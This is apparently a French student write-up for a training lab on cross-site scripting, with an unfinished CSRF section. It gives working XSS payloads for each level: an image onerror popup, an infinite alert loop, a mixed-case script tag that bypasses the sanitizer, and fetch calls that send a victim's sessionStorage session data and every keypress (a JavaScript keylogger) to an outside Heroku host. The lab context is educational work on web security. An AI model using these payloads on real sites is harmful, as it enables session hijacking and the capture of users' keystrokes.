 # XSS-CSRF
https://xss-csrf-tp.herokuapp.com/men
## Partie 1 - XSS

### Level 1 : 
Pour ce niveau, j’ai décidé d’intégrer une image dans l’URL qui affiche un message d’erreur  si elle n’est pas trouvée → une popup d’erreur s’affiche https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22alert%22%20onerror=%22alert(%27danger%27)%22%3E 

### Level 2 :
Pour ce niveau,  j’ai repris ma démarche précédente en insérant <img src="alert" onerror="alert('danger')"> dans champ titre du formulaire ainsi l’image qui doit être affiché n’est pas trouvée → une popup d’erreur s’affiche par contre <script>alert(‘danger’)</script> ne fonctionne pas
On dirait que le navigateur protége le site en effectuant un genre d’escape
L’API Fetch de JS effectue une requete asynchrone en utilisant un appel AJAX pour recuperer les données
La solution que je prefere est <img src="danger" onerror="while(true) { alert(‘danger’); }">
Pour envoyer sur heroku la session de l’utilisateur de maniere invicible, j’utilise : <img src="danger" onerror="fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({sessionName: sessionStorage.SessionName, session: sessionStorage.getItem('SESSIONDANGER')})})">

### Level 3 :
Pour rusez le bypass du sanitizer, j’ai simplement ajouter des majuscule dans les balise script ainsi les scripts sont ajouté dans le DOM
Pour faire un keylogger en JS qui envoie les données sur heroku : <sCript>document.addEventListener('keypress', function(event) { console.log(String.fromCharCode( event.which )); fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({keypressed: String.fromCharCode( event.which )})})}); </sCript>

## Partie 2 - CSRF

En construction
